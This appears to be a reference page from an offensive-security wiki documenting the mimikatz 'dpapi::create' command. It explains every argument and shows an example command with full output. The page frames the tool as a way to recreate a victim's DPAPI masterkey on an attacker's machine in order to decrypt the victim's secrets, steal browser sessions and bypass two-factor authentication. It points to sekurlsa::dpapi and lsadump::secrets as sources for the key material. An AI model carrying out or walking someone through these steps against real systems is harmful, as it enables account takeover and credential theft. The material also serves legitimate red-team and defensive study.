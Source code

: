 # create

`dpapi::create` creates a DPAPI Masterkey file from raw key and metadata. It comes in handy when you want to decrypt a victim's DPAPI secrets locally in your machine. CoreSecurity has published a [guide](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz) on how you can clone the Google Chrome Victim's session and decrypt it from your own box. Benjamin has also [tweeted](https://twitter.com/gentilkiwi/status/1236634610529959936?s=20) how you can recreate masterkeys on your own machine to steal browser sessions and bypass 2FA. It has the following command line arguments:

* `/sid`: the Security Identifier of the target user
* `/md4`: the MD4 key
* `/key`: The masterkey. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi)``
* `/sha1`: the SHA1 key. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi)``
* `/hash`: the SHA1 hash of YOUR password when porting the victim's DPAPI files to your system
* `/dpapi`: TODO
* `/guid`: the user's GUID. it can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi). it is also the _**szGuid**_ output value of the `dpapi::masterkey in:"C:\Users<UserName>\AppData\Roaming\Microsoft\Protect\SID\MasterKey_ID" /rpc`
* `/system`: the DPAPI\_SYSTEM key. It can be found through [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets)
* `/password`: This is YOUR password when porting the victim's DPAPI files to your system
* `/protected`: it defines the user account as a protected one

```
mimikatz # dpapi::create /guid:{5c22983f-77ee-41e4-9086-8073d664e417} /key:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3 /password:Super_SecretPass /protected
Target SID is: S-1-5-21-2725560159-1428537199-2260736313-1730

[masterkey] with password: Super_SecretPass (protected user)
Key GUID: {5c22983f-77ee-41e4-9086-8073d664e417}
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {5c22983f-77ee-41e4-9086-8073d664e417}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000108 - 264
  dwBackupKeyLen     : 00000000 - 0
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000000 - 0
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 5c765e71ed00a886cb27b5ab5ea2ff19
    rounds           : 00000fa0 - 4000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 2a10ef754addc9bfcea06565e1a8fe388e4bdca26bca4c85ba2420bdfccacc343dff4ea9021ad55b6ea2f1bcfcbe95fe2f0ad6eece14e3a5797aa0957b09601f42d87ec03885cc82b2c208160e182518c9840df006d0f312d6cde65854ef8b0da26f252f7f0ad9f2


File '5c22983f-77ee-41e4-9086-8073d664e417' (hidden & system): OK
```
